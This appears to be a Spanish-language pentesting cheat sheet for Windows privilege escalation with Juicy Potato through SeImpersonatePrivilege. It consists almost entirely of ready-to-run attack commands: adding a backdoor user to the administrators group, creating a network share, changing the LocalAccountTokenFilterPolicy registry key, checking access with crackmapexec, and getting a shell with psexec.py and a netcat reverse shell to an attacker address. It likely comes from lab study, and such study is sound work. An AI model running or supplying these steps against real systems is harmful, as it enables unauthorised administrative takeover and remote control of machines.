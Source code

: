 # Juicy Potato 

Cuando tenemos el Privilegio "Se Impersonate Privilege" en un Usuario, procedemos a usar Juicy Potato

# Sintaxis Creando un Nuevo Usuario a nivel de sistema
E introduciendolo en el grupo Admins

```bash
Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user paco paco1234$ /add"

Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup administrators paco /add"
```

# Procedemos a comprobar el usuario con `Crackmapexec`
En busca del pwned, chequeamos...
```bash
crakmapexec smb IP -u paco -p paco123$

Ejemplo de lo que buscamos
# crackmapexec smb 192.168.177.10 -u administrator -p lab 
SMB         192.168.177.10  445    CLIENT251        [*] Windows 10 Pro 16299 (name:CLIENT251) (domain:corp.com) (signing:False) (SMBv1:True)
SMB         192.168.177.10  445    CLIENT251        [+] corp.com\administrator:lab (Pwn3d!)
```

Si NO resulta pwned procdemos a hacer lo siguiente

# Sintaxis creando un nuevo recurso compartido a nivel de red

Se Tenso por aqui
```bash
Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share paco_folder=C:\Windows\Temp\privilege /add"
```

# Modificando el Registro Oportuno

Para conseguir el Pwned y poder utilizar `PSEXEC.PY`
```bash
Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
```

# Psexec.py

Una vez seguidos los pasos el usiario Paco deberia estar Pwned y podriamos lanzarnos una Shell.
```bash
# psexec.py WORKGROUP/paco@10.11.1.13 cmd
```

# JuicyPotato para ejecutar un comando

En caso de que tuviesemos un nc.exe descargado, lanzarnos una RevShell
```bash
Juicy.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\nc.exe -e cmd (OUR IP PORT)
```

Tambien esta el rottenpotato.exe que veremos mas adelante.
